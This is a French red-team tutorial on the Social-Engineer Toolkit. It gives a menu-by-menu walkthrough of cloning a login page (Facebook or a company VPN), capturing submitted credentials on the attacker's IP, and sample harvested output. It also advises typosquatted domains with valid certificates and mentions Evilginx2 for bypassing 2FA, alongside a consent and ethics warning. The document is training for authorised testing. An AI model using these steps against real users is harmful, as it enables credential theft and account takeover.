

---
description: "SET (Social-Engineer Toolkit) — Le framework open-source de référence pour les attaques par ingénierie sociale (Phishing, clonage de sites, clés USB piégées)."
icon: lucide/book-open-check
tags: ["RED TEAM", "SOCIAL ENGINEERING", "SET", "PHISHING", "TRUSTEDSEC"]
---

# SET — La Mallette de l'Illusionniste

<div
  class="omny-meta"
  data-level="🟢 Débutant"
  data-version="8.0+"
  data-time="~35 minutes">
</div>


## Introduction

!!! quote "Analogie pédagogique — Le Décor de Cinéma"
    Si Metasploit est l'arsenal militaire qui détruit la porte d'entrée d'une forteresse, le **Social-Engineer Toolkit (SET)** est l'équipe de décorateurs de cinéma qui construit une fausse banque de l'autre côté de la rue.
    SET ne cherche pas à casser le chiffrement ou à exploiter un bug dans le pare-feu. Il crée une illusion parfaite (un faux site web, une fausse clé USB, un faux email d'alerte Microsoft) pour que l'employé de l'entreprise visée lui donne volontairement les clés de la forteresse.

Développé par **TrustedSec** (David Kennedy), SET est un framework open-source écrit en Python, intégré nativement dans Kali Linux. Son interface textuelle (CLI menubar) permet même aux débutants d'orchestrer des attaques de Phishing sophistiquées en quelques minutes. C'est l'outil de référence absolu pour prouver qu'un système informatique inviolable ne sert à rien si l'humain derrière le clavier est crédule.

<br>

---

## Architecture & Mécanismes Internes

### 1. Les Vecteurs d'Attaque de SET
SET regroupe plusieurs méthodes (Vecteurs) d'attaques d'ingénierie sociale. L'interface principale est un menu textuel interactif.



### 2. Le Mécanisme du Credential Harvester (Sequence Diagram)
L'attaque la plus emblématique de SET est le vol d'identifiants (Credential Harvester). Voici comment fonctionne le clonage dynamique d'un site.

```mermaid
sequenceDiagram
    participant U as Utilisateur (Cible)
    participant S as SET (Machine Attaquant: 192.168.1.5)
    participant L as Site Légitime (LinkedIn)
    
    Note over S,L: SET télécharge le code HTML du site légitime
    S->>L: GET /login
    L-->>S: HTTP 200 OK (HTML/CSS)
    
    Note over S: SET modifie la balise <form action="..."> dans le HTML<br>pour pointer vers sa propre adresse IP (192.168.1.5).
    
    Note over U,S: L'utilisateur clique sur le lien de Phishing reçu par mail.
    U->>S: GET / (Accès au faux serveur SET)
    S-->>U: Affiche le clone parfait de LinkedIn.
    
    U->>S: POST / (user="pdg@boite.com", pass="Secret123")
    Note over S: SET intercepte les mots de passe et les enregistre.
    
    S->>U: HTTP 302 Redirect vers https://vrai-site.com/login
    Note over U: L'utilisateur atterrit sur le VRAI site, croit qu'il a<br>mal tapé son mot de passe, et le retape sans se méfier.
```



<br>

---

## Intégration dans la Kill Chain

| Phase Précédente | SET | Phase Suivante |
| :--- | :--- | :--- |
| **OSINT / theHarvester** <br> (*Reconnaissance*) <br> On a extrait une liste de 50 emails professionnels d'employés sur LinkedIn. | ➔ **Accès Initial (Initial Access)** ➔ <br> Envoi d'un mail piégé renvoyant vers un site cloné par SET. | **Mouvement Latéral / Post-Exploit** <br> (*CrackMapExec / Bloodhound*) <br> On utilise le mot de passe récupéré pour se connecter au VPN de l'entreprise. |

<br>

---

## Workflow Opérationnel (Cas Pratique Complet)

L'utilisation de SET se fait par choix numériques dans les menus (`1`, puis `2`, puis `3`...). Voici le chemin pour cloner une page de login et voler les identifiants.

### Étape 1 : Lancement de l'outil
```bash title="Exécution en droits administrateur (requis pour ouvrir le port 80)"
sudo setoolkit
```
*(Le terminal affiche un grand logo ASCII de SET et le menu principal).*

### Étape 2 : Navigation dans le Menu
Tapez les numéros suivants pour atteindre le cloneur de site :
1. Sélectionnez `1` (Social-Engineering Attacks).
2. Sélectionnez `2` (Website Attack Vectors).
3. Sélectionnez `3` (Credential Harvester Attack Method).
4. Sélectionnez `2` (Site Cloner).

### Étape 3 : Configuration du Cloneur
SET va vous poser deux questions cruciales :
```text
IP address for the POST back in Harvester/Tabnabbing [192.168.1.5]:
```
*C'est l'adresse IP de votre machine (l'attaquant). Appuyez sur **Entrée** si l'IP proposée est la bonne.*

```text
Enter the url to clone:
```
*Tapez l'URL exacte de la page de connexion que vous voulez voler (ex: `https://www.facebook.com` ou `https://vpn.cible.com/login`).*

### Étape 4 : L'Attente et la Capture (Terminal Output)
SET a démarré un serveur Apache miniature sur votre machine (Port 80). Si vous envoyez votre IP `http://192.168.1.5` à votre victime, voici ce qu'il se passera dans votre terminal quand elle tapera ses identifiants :

```text
[*] Waiting for user credentials to be submitted...
[*] WE GOT A HIT! Printing the output:
PARAM: email=victime@entreprise.com
PARAM: pass=MonMotDePasseSuperSecret
[*] Information saved to /root/.set/reports/
```

<br>

---

## Bonnes & Mauvaises Pratiques (Do's & Don'ts)

| Action | Recommandation | Explication technique |
|---|---|---|
| ✅ **À FAIRE** | **Acheter un Nom de Domaine "Typosquatté"** | Personne ne cliquera sur un lien `http://192.168.1.5`. Pour un vrai audit, achetez un nom de domaine très proche de la cible (ex: `intranet-omnyvia.com` au lieu de `intranet.omnyvia.com`), générez un vrai certificat SSL gratuit (Let's Encrypt), et faites pointer SET derrière. |
| ❌ **À NE PAS FAIRE** | **Cloner un site utilisant une authentification 2FA renforcée** | Si la page de login de l'entreprise nécessite l'approbation via une notification sur l'application mobile (Microsoft Authenticator), voler le mot de passe avec SET ne vous servira à rien (sauf si vous utilisez des outils de contournement 2FA avancés comme *Evilginx2*). |

<br>

---

## Avertissement Légal & Éthique

!!! danger "Phishing et Droit des Employés"
    L'ingénierie sociale est le domaine le plus sensible légalement et humainement de l'audit.
    
    1. **Consentement** : Lancer une campagne de Phishing sur des employés nécessite l'accord explicite et écrit de la Direction des Ressources Humaines (DRH) et du CSE (Comité Social et Économique). Un employé peut attaquer son entreprise pour harcèlement ou violation de confiance si ce n'est pas encadré.
    2. **Gestion de la Crise** : Ne stockez JAMAIS les mots de passe réels des employés dans le rapport final (masquez-les : `MonMotDePasse*****`). Le but est de prouver la vulnérabilité ("Le clic a eu lieu"), pas d'humilier un individu nominativement ni de stocker des données personnelles critiques.

<br>

---

## Conclusion

!!! quote "Ce qu'il faut retenir"
    Le Social-Engineer Toolkit est un outil spectaculaire qui rend le Phishing accessible à n'importe qui en 5 minutes. Il rappelle brutalement aux DSI que des millions d'euros investis dans des pare-feux (Palo Alto, Fortinet) et des antivirus peuvent être balayés par un email convaincant demandant de réinitialiser un mot de passe Microsoft Office 365.

> Bien que SET soit incroyable pour un Pentester solo (Red Team) cherchant un accès initial rapide (Spear Phishing), il n'est pas conçu pour de l'évaluation statistique à grande échelle. Pour lancer une campagne de sensibilisation sur 10 000 employés et obtenir des graphiques clairs sur "qui a cliqué", il faut une véritable plateforme de simulation : **[GoPhish →](./gophish.md)**.


